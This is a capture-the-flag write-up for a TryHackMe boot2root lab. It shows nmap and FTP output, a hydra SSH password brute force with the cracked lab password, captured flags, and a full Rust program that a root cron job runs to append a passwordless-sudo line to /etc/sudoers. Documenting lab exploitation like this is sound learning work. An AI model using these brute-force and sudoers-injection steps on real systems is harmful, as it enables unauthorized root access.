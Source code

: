 ```yaml
---
description: https://tryhackme.com/room/yctfweek2Mv
---
```


# VM - boot2root

i had first blood for this machine ([🩸](https://emojipedia.org/drop-of-blood))

<figure><img src="../../../.gitbook/assets/image (49).png" alt=""><figcaption></figcaption></figure>

## Port scan

* i used rustscan to see what ports are open (21 and 22)
* nmap scan results :

```bash
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.5
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.8.102.180
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.5 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0              69 Dec 04 23:26 welcome.txt
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 28:fa:d2:43:4e:e7:6c:1f:49:19:f3:3f:ae:8c:e2:00 (RSA)
|   256 48:57:12:7e:c2:10:4d:0d:1f:1a:d6:65:f5:4e:a6:7f (ECDSA)
|_  256 93:b2:43:81:5f:0c:73:af:84:b1:45:ba:21:ac:c2:54 (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.23 seconds
```

* only 2 ports were open,

## FTP&#x20;

* anonymous login was allowed

```bash
└─➜ ftp 10.10.103.104                                                                                                                                                                    [1]
Connected to 10.10.103.104.
220 (vsFTPd 3.0.5)
Name (10.10.103.104:kyubi): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.

ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0              69 Dec 04 23:26 welcome.txt
226 Directory send OK.

ftp> get welcome.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for welcome.txt (69 bytes).
226 Transfer complete.
69 bytes received in 0.0013 seconds (52 kbytes/s)

ftp> bye
221 Goodbye.
```

### Contents of welcome.txt

```bash
Hello I am melodi and welcome to my simple FTP server.

Thank You :)
```

* Username : melodi

## SSH&#x20;

* since no http port was open, my next thought was to **bruteforce** the password

### hydra bruteforce

```bash
└─➜ hydra -l melodi -P /usr/share/wordlists/rockyou.txt 10.10.103.104 ssh -t 4                                                                                                           [0]
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-12-10 12:37:16
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344398 login tries (l:1/p:14344398), ~3586100 tries per task
[DATA] attacking ssh://10.10.103.104:22/
[STATUS] 81.00 tries/min, 81 tries in 00:01h, 14344317 to do in 2951:31h, 4 active
[22][ssh] host: 10.10.103.104   login: melodi   password: princess1
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-12-10 12:38:56

```

### Password found : princess1



## User flag

```bash
└─➜ ssh melodi@10.10.103.104                                                                                                                                                           [130]
The authenticity of host '10.10.103.104 (10.10.103.104)' can't be established.
ED25519 key fingerprint is SHA256:G7f5Il1Yitj0F1y5OmeYSgwUVJbsq01WBas04KF+LPo.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:36: 10.10.224.19
    ~/.ssh/known_hosts:38: 10.10.211.116
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.103.104' (ED25519) to the list of known hosts.
melodi@10.10.103.104's password:
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-167-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Last login: Thu Dec  7 18:33:34 2023
melodi@ubuntu:~$ ls
fl4g.txt
melodi@ubuntu:~$ cat fl4g.txt
YCTF{15_1t_e45y??}

```

### Flag : YCTF{15\_1t\_e45y??}



## Root flag

* I used **pspy64** script to see what all proccess were running on the machine

```bash
2023/12/09 19:35:01 CMD: UID=0     PID=14136  | /root/.cargo/bin/rustc /tmp/hello.rs
2023/12/09 19:35:01 CMD: UID=0     PID=14135  | /bin/bash /root/script.sh
2023/12/09 19:35:01 CMD: UID=0     PID=14134  | /bin/sh -c /bin/bash /root/script.sh
2023/12/09 19:35:01 CMD: UID=0     PID=14133  | /usr/sbin/CRON -f
```

* every minute root compiles the script under `/tmp/hello.rs` and (runs it?)
* Let's add ourself in sudoers list (NOTE: this isn't the way i solved this machine)
* before :&#x20;

```bash
melodi@ubuntu:/tmp$ sudo -l
[sudo] password for melodi:
Sorry, user melodi may not run sudo on ubuntu.
```

* script :&#x20;

```rust
use std::fs::OpenOptions;
use std::io::{self, Write};
use std::path::Path;

fn main() {
    let username = "melodi";

    // Path to the sudoers file
    let sudoers_path = "/etc/sudoers";

    // Check if the file exists
    if !Path::new(sudoers_path).exists() {
        eprintln!("Error: sudoers file not found at {}", sudoers_path);
        return;
    }

    // Open the sudoers file for appending
    let mut file = match OpenOptions::new().append(true).open(sudoers_path) {
        Ok(file) => file,
        Err(err) => {
            eprintln!("Error opening sudoers file: {}", err);
            return;
        }
    };

    // Prepare the line to be added to the sudoers file
    let sudoers_line = format!("{}   ALL=(ALL:ALL) NOPASSWD: ALL\n", username);

    // Write the line to the sudoers file
    match file.write_all(sudoers_line.as_bytes()) {
        Ok(_) => println!("Passwordless sudo access added for user: {}", username),
        Err(err) => eprintln!("Error writing to sudoers file: {}", err),
    }
}
```

* After a minute our script will be run by the root user

```bash
melodi@ubuntu:/tmp$ sudo -l
Matching Defaults entries for melodi on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User melodi may run the following commands on ubuntu:
    (ALL : ALL) NOPASSWD: ALL
```

* woo hooooo, we can run sudo now, without any password

```bash
melodi@ubuntu:/tmp$ sudo /bin/bash
root@ubuntu:/tmp# id
uid=0(root) gid=0(root) groups=0(root)
root@ubuntu:/tmp# cd /root
root@ubuntu:~# ls
r00t.txt  script.sh
root@ubuntu:~# cat r00t.txt
YCTF{1t5_v3ry_ru5ty_h3r3!!}
```

* btw i used another script during CTF, a script that had rev shell payload for my local machine, i listen on my local machine with netcat and got root shell.

### Flag: YCTF{1t5\_v3ry\_ru5ty\_h3r3!!}

## Pwned

\_\_\_\_\_\_\_\_\_\_heapbytes's still pwning
